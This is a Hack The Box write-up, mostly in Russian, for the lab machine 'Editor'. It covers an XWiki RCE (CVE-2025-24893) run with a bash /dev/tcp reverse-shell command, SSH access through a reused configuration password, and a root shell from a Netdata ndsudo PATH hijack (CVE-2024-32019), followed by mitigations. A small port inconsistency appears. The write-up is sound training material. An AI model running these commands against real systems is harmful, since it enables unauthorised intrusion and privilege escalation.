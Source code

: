# 📝 Write-up: Editor (Hack The Box)

![editor](https://www.hackthebox.com/storage/avatars/7d4a6dfe5b291cbe7b4e13e5f5c4d6c3.png)

**Difficulty:** Easy
**Platform:** Hack The Box
**Target host (lab):** `editor.htb` — `10.10.11.80` (add to `/etc/hosts`)
**Link:** [Editor @ HTB](https://app.hackthebox.com/machines/Editor)

---

## 🎯 Summary

Editor — лёгкая Linux-машина. Ключевые шаги:

* Инициальный доступ через **XWiki RCE** (CVE-2025-24893).
* Горизонтальная эскалация: переиспользование пароля из конфигурации.
* Эскалация до root через уязвимый SUID-бинарь Netdata (CVE-2024-32019) с помощью PATH-hijack.

---

## 📋 Table of Contents

1. [Prerequisites / Notes](#-prerequisites--notes)
2. [Reconnaissance](#-reconnaissance)
3. [Enumeration](#-enumeration)
4. [Exploitation — Initial Foothold (XWiki)](#-exploitation--initial-foothold-xwiki)
5. [Privilege Escalation — User (password reuse)](#-privilege-escalation--user-password-reuse)
6. [Privilege Escalation — Root (Netdata ndsudo)](#-privilege-escalation--root-netdata-ndsudo)
7. [Mitigations & Lessons Learned](#-mitigations--lessons-learned)
8. [Replay / Reproduce checklist](#-replay--reproduce-checklist)
9. [References](#-references)

---

## 🔒 Prerequisites / Notes

* Это write-up для учебной (CTF/lab) среды Hack The Box — **не запускать против продакшн-систем**.
* В моих примерах `editor.htb` резолвится в `10.10.11.80`. Добавьте в `/etc/hosts`:

```bash
# add on атакующей машине
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```


---

## 🔍 Reconnaissance

Сначала — полный порт-скан `nmap`:

```bash
nmap -sC -sV -oA nmap/initial 10.10.11.80
```

Пример вывода (сокращённо):

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express server)
8080/tcp open  http    XWiki 14.10.5

```

---

## 🕵️ Enumeration

### 🌐 HTTP — порт 80

* Статическая страница с документацией проекта.

### 🌐 HTTP — порт 8000 (XWiki)

* На порту `8000` запущен XWiki 14.10.5 — уязвимая версия.

### ⚡ Порт 3000 — Node.js/Express

* Обнаружен интерфейс с логином; найдены учётные данные по умолчанию: `admin:admin`.
* Доступ к dashboard'у проекта.

---

## 🚀 Exploitation — Initial Foothold (CVE-2025-24893, XWiki RCE)

**Цель:** получить обратный шелл из XWiki.

> Подготовьте listener на своей машине:

```bash
# на вашей машине (атакующей)
nc -lvnp 4444
```

**Запуск эксплойта** (пример, используемый эксплоит — [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893)):

```bash
# на атакующей машине
python3 exploit.py -t http://editor.htb:8080 -c "bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1"
```

**Примечание:** замените `<YOUR_IP>` своим IP; порт `8080` — порт XWiki в моём nmap-скане. Если у вас в nmap указано иначе — используйте реальный порт.


---

## 🔼 Privilege Escalation — User (Password reuse)

После фута нашли конфигурацию XWiki с учётными данными базы данных.

**Файл:** `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`

```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

Эти же креды использовались для пользователя `oliver` по SSH:

```bash
ssh oliver@editor.htb
# Password: theEd1t0rTeam99
```

**User flag:** `bc2341152c638da4a05b91d91c1df26f`



---

## 🚀 Privilege Escalation — Root (CVE-2024-32019, Netdata `ndsudo`)

Netdata поставлялось с SUID-бинарём `ndsudo` в `opt/netdata` — анализ показал, что бинарь вызывает внешние утилиты без надёжного полного пути, что позволяет выполнить PATH-hijacking.

### Почему работает PATH-hijack

SUID-бинарь, запущенный от root, наследует переменные окружения (включая `PATH`) и выполняет дочерние программы без использования абсолютных путей. Если в начале PATH подставить папку с вашим «плохим» бинарём с именем ожидаемой утилиты — root выполнит ваш код.

### Эксплуатация — шаги

1. Создаём простой C-бинарь, поднимающий UID до 0 и открывающий шелл:

```bash
cat > /tmp/nvme-list.c <<'EOF'
#include <stdlib.h>
#include <unistd.h>
int main(){ setuid(0); system("/bin/bash"); return 0; }
EOF

gcc /tmp/nvme-list.c -o /tmp/nvme-list
chmod +x /tmp/nvme-list
```

2. Подставляем `/tmp` в начало PATH и запускаем уязвимый скрипт:

```bash
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Если бинарь `ndsudo` искал `nvme-list` в PATH и нашёл `/tmp/nvme-list`, он выполнит его с правами root — вы получите root shell.

**Root flag:** `6d4d6c2368c3210994e624647c93119f`


---

## 🛡 Mitigations & Lessons Learned

* **Патчить XWiki** до версии, в которой закрыт CVE-2025-24893. Отключать публичный доступ к административным интерфейсам.
* **Не хранить чувствительные пароли в репозиториях/конфигурациях** в открытом виде; использовать секреты/обёртки.
* **Не оставлять SUID-бинарей без необходимости.** Обеспечивать, чтобы SUID-исполняемые файлы использовали абсолютные пути или очищали PATH.
* **Мониторинг и управление учётными записями** — уникальные пароли для сервисных и пользовательских учёток.

---


---

## 📚 References

* CVE-2025-24893 — XWiki RCE (exploit used: [https://github.com/gunzf0x/CVE-2025-24893](https://github.com/gunzf0x/CVE-2025-24893))
* CVE-2024-32019 — Netdata ndsudo PATH-hijack (description & PoC)

---
